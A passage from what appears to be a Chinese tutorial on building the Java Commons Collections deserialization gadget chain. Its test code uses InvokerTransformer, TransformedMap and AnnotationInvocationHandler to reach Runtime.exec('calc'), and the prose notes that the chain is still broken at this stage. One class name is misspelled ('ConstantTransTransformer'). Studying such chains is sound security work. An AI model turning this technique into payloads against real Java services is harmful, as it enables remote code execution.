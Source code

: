 ```
        for (Map.Entry<Object, Object> entry : decorated.entrySet()) {
            entry.setValue(Runtime.getRuntime());
        }
    }
    
    @Test
    
    public void invokeExec1() throws Exception {
        InvokerTransformer invokerTransformer = new InvokerTransformer(
            "exec",
            new Class[]{String.class},
            new Object[]{"calc"}
        );
        HashMap<Object, Object> map = new HashMap<>();
        map.put("value", "null");
        ConstantTransformer constantTransformer = new ConstantTransTransformer(Runtime.getRuntime());
        Map<Object, Object> decorated = TransformedMap.decorate(map, null, constantTransformer);
        for (Map.Entry<Object, Object> entry : decorated.entrySet()) {
            entry.setValue(null);
        }
        Class<?> clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        Object o = constructor.newInstance(Target.class, decorated);
        CC.serialize(o);
        CC.unserialize("ser.bin");
    }
    
    @Test
    public void test() throws IOException{
        AnnotationType annotationType = AnnotationType.getInstance(Target.class);
        Map<String, Class<?>> memberTypes = annotationType.memberTypes();
        for (Map.Entry<String, Class<?>> entry : memberTypes.entrySet()) {
            System.out.println(entry);
        }
    }
}
```  
  
也就是说其实我们之前的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYYeFLBRHKTFMlpbIuacia48aovNLJzCLNTPCpZ7ek2MRuceTHwMW5PbYg/640?wx_fmt=jpeg "")  
  
和现在的  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xClUkwicmh2xkm2ZCV3d6LYYOibaiawrqxFBTdkkdmyte0L3VBltbNRyniaiblJotgUqibG7h28XybpjJww/640?wx_fmt=png&from=appmsg "")  
  
效果完全一致，但是最终我们的调用链没了，虽然可以把常量Transformer（ConstantTransformer）传进去了，但是无法调用起后面的那些类，即InvokerTransformer类和执行我们的危险方法。  
  
所以接下来该怎么办呢？  
  
